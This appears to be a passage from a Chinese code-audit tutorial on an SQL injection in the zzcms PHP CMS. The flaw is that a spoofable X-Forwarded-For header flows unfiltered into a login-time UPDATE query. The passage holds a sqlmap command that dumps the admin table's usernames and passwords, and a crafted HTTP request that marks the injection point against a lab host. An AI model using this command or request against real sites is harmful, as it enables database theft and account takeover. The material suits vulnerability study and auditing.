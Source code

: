```
}
```  
  
我们来看一下"/user/check.php"函数是否存在可利用的地方，这个文件中有 5 处 SQL 语句查询，第一处，无法利用，因为首先参数经过 "/inc/stopsqlin.php" 消毒处理，且被单引号包裹，无法闭合。  
```
# "/user/check.php"文件
$username=nostr($_COOKIE["UserName"]);
$rs=query("select id,usersf,lastlogintime from zzcms_user where 
lockuser=0 and username='".$username."' and 
password='".$_COOKIE["PassWord"]."'");$row=num_rows($rs);
```  
  
为了确保只有注册用户才能执行特定的SQL操作，我们需要在审计过程中特别关注SQL语句的执行流程。让我们逐一分析这些SQL语句，尤其是第二处的SQL语句。同时，  
我们也需要关注getip()  
函数的实现，因为它涉及到IP地址的获取，而这个IP地址可能被伪造，且在拼接SQL语句时没有进行适当的过滤，仅仅被单引号包裹。  
```
# "/user/check.php"文件
query("UPDATE zzcms_user SET loginip = '".getip()."' WHERE 
username='".$username."'");//更新最后登录 IP
# "/inc/function.php"文件
function getip(){ 
  if (getenv("HTTP_CLIENT_IP") &&
strcasecmp(getenv("HTTP_CLIENT_IP"), "unknown")) 
    $ip = getenv("HTTP_CLIENT_IP"); 
  else if (getenv("HTTP_X_FORWARDED_FOR") &&
strcasecmp(getenv("HTTP_X_FORWARDED_FOR"), "unknown")) 
    $ip = getenv("HTTP_X_FORWARDED_FOR"); 
  else if (getenv("REMOTE_ADDR") && strcasecmp(getenv("REMOTE_ADDR"), 
"unknown")) 
    $ip = getenv("REMOTE_ADDR"); 
  else if (isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] 
&& strcasecmp($_SERVER['REMOTE_ADDR'], "unknown")) 
    $ip = $_SERVER['REMOTE_ADDR']; 
  else
    $ip = "unknown"; 
  return($ip); 
}
```  
  
那么我们直接用sqlmap跑一下，这里我事先注册好了test用户密码为test，这个系统将用户的密码经 md5 加密后存在数据库中，结果如下：  
```
sqlmap -r Desktop/test.txt --batch -D zzcms -T zzcms_admin -C
"admin,pass" --dump
GET /user/del.php HTTP/1.1
Host: 192.168.1.7
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, 
like Gecko) Chrome/62.0.3202.62 Safari/537.36
Upgrade-Insecure-Requests: 1
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,ima
ge/apng,/;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: bdshare_firstime=1518262531074; 
PHPSESSID=jpeu0l4983924s20f6bk0ktkl0; UserName=test; 
PassWord=098f6bcd4621d373cade4e832627b4f6
X-Forwarded-For: 111.111.111.111*
Connection: close
```  
  